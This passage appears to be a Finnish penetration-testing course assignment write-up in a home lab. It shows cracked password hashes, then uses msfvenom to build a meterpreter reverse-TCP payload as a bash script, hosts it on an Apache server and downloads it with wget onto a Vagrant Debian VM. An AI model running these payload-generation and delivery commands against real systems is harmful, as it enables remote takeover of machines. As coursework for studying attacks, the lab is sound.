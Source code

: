 ```bash
Started: Tue Apr 22 17:21:20 2025
Stopped: Tue Apr 22 17:21:24 2025
                                                                                                                                                            
┌──(parallels㉿kali-linux-2024-2)-[~/hashed]
└─$ cat solved 
6b1628b016dff46e6fa35684be6acc96:summer
$2a$10$NVM0n8ElaRgg7zWO1CxUdei7vWoPg91Lz2aYavh9.f9q0e4bRadue:user
```
---

### g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Päätin tehdä Vagrantilla Debian virtuaalikoneen, joka ajaisi haittaohjelman. 

Löysin tämän apache2 ohjeen [^13] ja tein sillä endpointin apache2:seen, jolla saisin ohjelman ladattua Debianiin.

Tein Karvisen ohjeen [^1] ja pentestTV:n videon [^14] avulla seuraavan komennon ja kopioitsin sen apachen2 endpointin kansioon:

Tarkistin `msfvenom -l archs` [^14] mikä olisi arm koneellini sopiva ja kokeillaan jos 'aarch64' toimisi.

- -p - payload [^16]
- -f - output format [^16]

```
msfvenom -p linux/aarch64/meterpreter/reverse_tcp LHOST=10.211.55.13 LPORT=4444 -f bash > reversetcp.sh
```

Seuraavaksi asensin Vagrantilla uuden Debianin ja kun olin valmis latasin Kalista tekemäni ohjelman. 

```
wget 10.211.55.13/downloads/reversetcp.sh
```

```bash
vagrant@debian-12:~$ wget 10.211.55.13:80/downloads/reversetcp.sh
--2025-04-22 16:27:01--  http://10.211.55.13/downloads/reversetcp.sh
Connecting to 10.211.55.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1009 [text/x-sh]
Saving to: ‘reversetcp.sh’

reversetcp.sh                           100%[=============================================================================>]    1009  --.-KB/s    in 0s

2025-04-22 16:27:01 (128 MB/s) - ‘reversetcp.sh’ saved [1009/1009]

vagrant@debian-12:~$ ls
reversetcp.sh
```


[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Tero Karvinen. Cracking Passwords with Hashcat: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/
[^3]: man tar
[^4]: man hashid
[^5]: hashcat. Example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
[^6]: Tero Karvinen. Crack File Password With John: https://terokarvinen.com/2023/crack-file-password-with-john/
[^7]: Stack Exchange. Best way to encrypt a file with just password (no keypairs) that is easily usable/decryptable on both Linux and macOS?: https://unix.stackexchange.com/questions/749766/best-way-to-encrypt-a-file-with-just-password-no-keypairs-that-is-easily-usabl
[^8]: man gpg
[^9]: Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/
[^10]: Kennedy et al 2025: Metasploit: File-Format Exploits: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#toc-link_128
[^11]: Singh 2025: The Ultimate Kali Linux Book: Understanding Active Directory: https://learning.oreilly.com/library/view/the-ultimate-kali/9781835085806/Text/Chapter_12.xhtml#_idParaDest-272
[^12]: Kennedy et al 2025: Metasploit: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter6.xhtml#toc-link_85
[^13]: Jobin J. How to Set Up a File Download Server on Ubuntu with Apache: https://medium.com/@techworldthink/how-to-set-up-a-file-download-server-on-ubuntu-with-apache-c35bc03eb218
[^14]: pentestTV. MSFvenom Demystified: Unlocking the Power of Exploit Shellcode: https://www.youtube.com/watch?v=ROBLGTEqUBQ
[^15]: Occupytheweb. Getting Started Becoming a Master Hacker. https://www.amazon.com/Getting-Started-Becoming-Master-Hacker/dp/1711729299
[^16]: man msfvenom